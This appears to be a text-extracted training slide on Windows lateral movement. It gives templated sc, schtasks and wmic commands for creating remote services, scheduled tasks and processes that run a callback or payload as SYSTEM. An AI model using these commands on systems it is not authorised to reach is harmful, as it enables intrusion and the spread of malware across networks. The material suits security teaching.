

# Lateral Movement
Windows Services
By default administrators of a machine are able to manage services remotely
Runs your callback as NT AUTHORITY/SYSTEM (YAY!)
`sc ip/addr create SERVICENAME binPath=/path/to/binary`
Scheduled Tasks
Scheduled tasks can also be administered remotely by default!
`schtasks /create /s TARGET /tn TASKNAME /u USERNAME /sc FREQUENCY /p PASSWORD /st TIME /sd DATE COMMAND_TO_RUN`
WMIC
We can also laterally move with WMI
`wmic /node:TARGET.DOMAIN process call create “C:\Windows\System32\cmd.exe /c PAYLOAD.exe`